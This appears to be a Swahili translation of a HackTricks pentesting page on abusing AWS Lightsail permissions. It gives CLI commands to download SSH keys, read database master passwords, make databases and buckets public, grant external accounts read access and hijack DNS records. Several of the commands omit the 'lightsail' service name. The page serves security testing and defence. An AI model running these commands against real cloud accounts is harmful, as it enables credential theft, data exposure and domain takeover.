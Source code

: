 # AWS - Lightsail Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Lightsail

Kwa maelezo zaidi kuhusu Lightsail angalia:

{{#ref}}
../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Ni muhimu kutambua kwamba Lightsail **haitumii majukumu ya IAM yanayomilikiwa na mtumiaji** bali kwa akaunti inayosimamiwa na AWS, hivyo huwezi kutumia huduma hii kwa privesc. Hata hivyo, **data nyeti** kama vile msimbo, funguo za API na taarifa za hifadhidata zinaweza kupatikana katika huduma hii.

### `lightsail:DownloadDefaultKeyPair`

Ruhusa hii itakuruhusu kupata funguo za SSH za kufikia mifano:
```
aws lightsail download-default-key-pair
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya mifano.

### `lightsail:GetInstanceAccessDetails`

Ruhusa hii itakuruhusu kuunda funguo za SSH ili kufikia mifano:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya mifano.

### `lightsail:CreateBucketAccessKey`

Ruhusa hii itakuruhusu kupata ufunguo wa kufikia ndoo:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Ruhusa hii itakuruhusu kupata akreditif za kufikia database:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya database.

### `lightsail:UpdateRelationalDatabase`

Ruhusa hii itakuruhusu kubadilisha nenosiri la kufikia database:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Ikiwa hifadhidata si ya umma, unaweza pia kuifanya kuwa ya umma kwa kutumia ruhusa hizi na
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya database.

### `lightsail:OpenInstancePublicPorts`

Ruhusa hii inaruhusu kufungua bandari kwa Mtandao.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Madhara Yanayoweza Kutokea:** Upatikanaji wa bandari nyeti.

### `lightsail:PutInstancePublicPorts`

Ruhusa hii inaruhusu kufungua bandari kwa Mtandao. Kumbuka kwamba wito utafungia bandari yoyote iliyofunguliwa ambayo haijatajwa ndani yake.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Madhara Yanayoweza Kutokea:** Upatikanaji wa bandari nyeti.

### `lightsail:SetResourceAccessForBucket`

Ruhusa hii inaruhusu kutoa upatikanaji wa mifano kwa ndoo bila hati zozote za ziada.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Madhara Yanayoweza Kutokea:** Upatikanaji mpya wa uwezo wa mifuko yenye taarifa nyeti.

### `lightsail:UpdateBucket`

Kwa ruhusa hii, mshambuliaji anaweza kutoa ufikiaji wa kusoma kwa akaunti yake ya AWS juu ya mifuko au hata kufanya mifuko hiyo kuwa ya umma kwa kila mtu:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Madhara Yanayoweza Kutokea:** Upatikanaji mpya wa uwezo wa mifuko yenye taarifa nyeti.

### `lightsail:UpdateContainerService`

Kwa ruhusa hii, mshambuliaji anaweza kutoa ufikiaji wa ECR za kibinafsi kutoka kwa huduma za kontena.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti kutoka ECR ya kibinafsi

### `lightsail:CreateDomainEntry`

Mshambuliaji mwenye ruhusa hii anaweza kuunda subdomain na kuielekeza kwenye anwani yake ya IP (uchukuaji wa subdomain), au kuunda rekodi ya SPF inayomruhusu kudanganya barua pepe kutoka kwenye domain, au hata kuweka domain kuu kwenye anwani yake ya IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Madhara Yanayoweza Kutokea:** Kuchukua udhibiti wa kikoa

### `lightsail:UpdateDomainEntry`

Mshambuliaji mwenye ruhusa hii anaweza kuunda subdomain na kuielekeza kwenye anwani yake ya IP (kuchukua subdomain), au kuunda rekodi ya SPF inayomruhusu kutuma barua pepe kwa kutumia kikoa hicho, au hata kuweka kikoa kikuu kwenye anwani yake ya IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Madhara Yanayoweza Kutokea:** Kuchukua udhibiti wa kikoa

{{#include ../../../banners/hacktricks-training.md}}
